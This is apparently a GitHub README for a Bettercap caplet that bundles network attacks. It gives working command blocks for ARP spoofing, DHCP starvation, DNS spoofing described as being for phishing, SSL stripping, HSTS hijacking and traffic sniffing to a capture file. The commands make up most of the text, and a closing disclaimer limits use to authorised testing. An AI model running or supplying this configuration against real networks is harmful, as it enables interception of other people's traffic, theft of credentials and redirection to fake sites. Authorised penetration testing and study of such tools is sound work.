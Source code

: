 ```
# Ultimate Spoof Caplet  

🚀 A powerful **Bettercap caplet** for **ARP Spoofing, DNS Spoofing, DHCP Starvation, SSL Stripping, and Packet Sniffing**. This tool is designed for **penetration testing** and **network security research**.  

---

## Features  
✅ **Network Probing & Reconnaissance**  
✅ **Man-in-the-Middle (MITM) Attacks**  
✅ **ARP Spoofing (Full-Duplex)**  
✅ **DNS Spoofing for Phishing Attacks**  
✅ **DHCP Starvation to Exhaust IPs**  
✅ **SSL Stripping (HTTPS Downgrade)**  
✅ **Packet Sniffing & Traffic Interception**  
✅ **HTTP Proxy & HSTS Hijacking**  

---

## Installation & Usage  
### Clone the Repository  
```sh
git clone https://github.com/paarthkaringula2004/Ultimate-Spoof-Caplet.git
cd Ultimate-Spoof-Caplet
```

### Run in Bettercap  
```sh
sudo bettercap -caplet UltimateSpoof.cap
```

---

## Caplet Configuration Breakdown  

### **1. Network Probing & Reconnaissance**  
```sh
net.probe on  
net.recon on  
```
- **Scans** the network for active devices.  
- **Collects** information on connected devices and open ports.  

### **2. ARP Spoofing (MITM Attack)**  
```sh
set arp.spoof.fullduplex true  
set arp.spoof.targets [Target IP]  
set arp.spoof.gateway true  
```
- **Intercepts** both incoming and outgoing traffic.  
- **Acts** as the network gateway to manipulate traffic.  

### **3. DHCP Starvation Attack**  
```sh
set dhcp.starvation on  
set dhcp.starvation.targets [Target IP]  
```
- **Floods** the network’s DHCP server to exhaust IP addresses.  

### **4. DNS Spoofing**  
```sh
set dns.spoof.domains {...}  
dns.spoof on  
```
- **Redirects** users from real websites to fake/malicious ones.  

### **5. SSL Stripping (HTTPS Downgrade)**  
```sh
set sslstrip.enable true  
set sslstrip.ports {80,443,8080}  
sslstrip on  
```
- **Forces** HTTPS sites to load over HTTP to capture data.  

### **6. Packet Sniffing**  
```sh
set net.sniff.local true  
set net.sniff.output /path/to/capture/file.cap  
net.sniff on  
```
- **Captures** unencrypted network traffic for analysis.  

### **7. HTTP Proxy & HSTS Hijacking**  
```sh
set http.proxy.script /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js  
set hstshijack.targets {...}  
http.proxy on  
```
- **Intercepts** and modifies HTTP requests.  

---

## Disclaimer  
⚠️ **For educational and ethical testing only.** Unauthorized use on a network without permission is **illegal** and violates **cyber laws**.  

---

📌 **Contributors & Support**  
👤 Created by **[@paarthkaringula2004](https://github.com/paarthkaringula2004)**  

Feel free to **fork, modify, and contribute**! 🚀 
